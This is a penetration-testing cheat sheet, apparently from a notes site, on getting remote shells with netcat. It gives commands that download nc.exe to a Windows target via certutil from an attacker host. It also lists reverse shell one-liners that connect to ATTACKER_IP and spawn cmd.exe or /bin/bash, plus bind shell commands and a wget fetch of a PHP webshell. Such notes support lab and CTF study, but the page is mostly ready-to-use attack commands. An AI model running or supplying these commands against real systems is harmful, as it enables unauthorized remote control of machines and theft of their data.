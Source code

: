 # Shells

## NetCat

> Windows Binaries in Linux: _/usr/share/windows-binaries/_

#### trasfering nc.exe

```bash
# Transfer nc.exe binaries to windows target machine: 

# exec in Attack machine 
cp /usr/share/windows-binaries/nc.exe .
python -m SimpleHTTPServer 80

# exec in Windows target machine
certutil -urlcache -f http://ATTACK_IP/nc.exe

# Listener port on attack machine: 

# exec in Attack machine
nc -lnvp PORT

# Connect from Windows Target to Linux Attack machine

# exec in Windows target machine
nc.exe -nv ATTACK_IP ATTACK_OPEN_PORT
```

#### Send files via NC

```bash
# Recipient Machine: (Windows)
nc.exe -nvlp PORT > file.txt

# Sender Machine: (Linux)
nc -nv REC_IP REC_PORT < file.txt
```

***

## Reverse Shell

A reverse shell is a type of remote shell where the target connect directly to a listener on the attacker's system.

{% embed url="https://www.revshells.com/" %}



### PHP Shells

#### wwwolf-php-webshell

{% embed url="https://github.com/WhiteWinterWolf/wwwolf-php-webshell" %}

{% code title="Download the shell locally" overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/refs/heads/master/webshell.php 
```
{% endcode %}



### Windows Target

[#nc.exe-file-transfer](shells.md#nc.exe-file-transfer "mention")

```bash
#Attacker Machine (Linux)
nc -lvnp PORT

# transfer the nc.exe file into the target machine

#Target Machine (Windows)
nc.exe -nv ATTACK_IP ATTACK_PORT -e cmd.exe

# Powershell
powershell -e "<PAYLOAD>"
```

### Linux Target

```bash
#Attacker Machine (Linux)
nc -lnvp PORT

#Target Machine (Linux)
nc -nv ATTACKER_IP ATTACKER_PORT -e /bin/bash
```

***

## Bind Shell

A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system.

### Windows Target

```bash
#Target Machine (Windows)
nc.exe -nvlp PORT -e cmd.exe

#Attack machine (Linux)
nc -nv TARGET_IP TARGET_PORT
```

### Linux Target

```bash
#Target Machine (Linux)
nc -nvlp PORT -c /bin/bash

#Attack Machine (Windows)
nc.exe -nv TARGET_IP TARGET_PORT
# Attack Machine (Linux)
mc -nv TARGET_IP TARGET_PORT
```



##





